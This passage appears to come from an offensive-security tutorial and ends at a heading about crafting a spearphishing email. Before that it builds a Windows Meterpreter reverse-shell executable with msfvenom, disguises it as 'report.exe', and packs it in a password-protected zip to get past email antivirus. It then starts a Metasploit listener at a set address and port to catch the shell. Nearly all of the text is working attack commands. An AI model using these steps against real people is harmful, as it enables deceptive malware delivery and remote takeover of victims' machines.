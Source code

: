 Lets start by creating the malicious _report.exe_ file that we will send by using _MSFVenom_:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=2222 -f exe > report.exe`

Once that's done, move the file into the Desktop directory, and go to it:

`mv report.exe Desktop/`

We need to zip the _.exe_ file using a password-protected zip in order to bypass possible antivirus blockers of certain email providers.

`cd /home/kali/Desktop`
`zip -e report.zip report.exe`

When prompted for a password, write:
`123445`

Next, we will set up a listener in Metasploit to obtain a reverse shell when the target executes our program.
`msfconsole`

Execute the following commands to configure the exploit and payload with the correct IP address and port for the reverse connection. use exploit/multi/handler

`set payload windows/meterpreter/reverse_tcp`
`set LHOST 192.168.1.100`
`set LPORT 2222`
`exploit`

# Crafting and Sending the Spearphishing Email

